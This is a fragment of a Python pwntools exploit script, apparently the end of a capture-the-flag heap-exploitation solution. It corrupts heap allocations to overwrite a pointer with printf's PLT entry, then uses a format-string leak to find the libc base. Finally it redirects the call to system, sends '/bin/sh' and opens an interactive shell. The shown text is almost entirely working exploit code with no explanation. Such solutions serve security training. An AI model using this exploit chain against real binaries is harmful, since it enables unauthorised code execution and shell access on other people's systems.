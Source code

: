 ```py
    rfree (p, b'1')
    re_allocate (p, b'0', b'50', b'A' * 16)
    rfree (p, b'0')
    # ---------------------------------------------------
    
    allocate (p, b'0', b'30', p64 (exe.plt['printf']))

    p.sendlineafter (b': ', b'1')
    p.sendafter (b':', b'%9$llx')

    leak_libc = p.recv(12).decode ('utf-8')
    leak_libc = int (leak_libc, 16)
    print ("The leak from libc is : ", hex(leak_libc))
    libc.address = leak_libc - libc.symbols['_IO_2_1_stdout_']
    print ("The libc address is : ", hex (libc.address))


    allocate (p, b'1', b'%20c', p64 (libc.symbols['system']))    
    p.sendlineafter (b': ', b'1')
    p.sendafter (b':', b'/bin/sh\x00')

    p.interactive()


if __name__ == "__main__":
    main()
```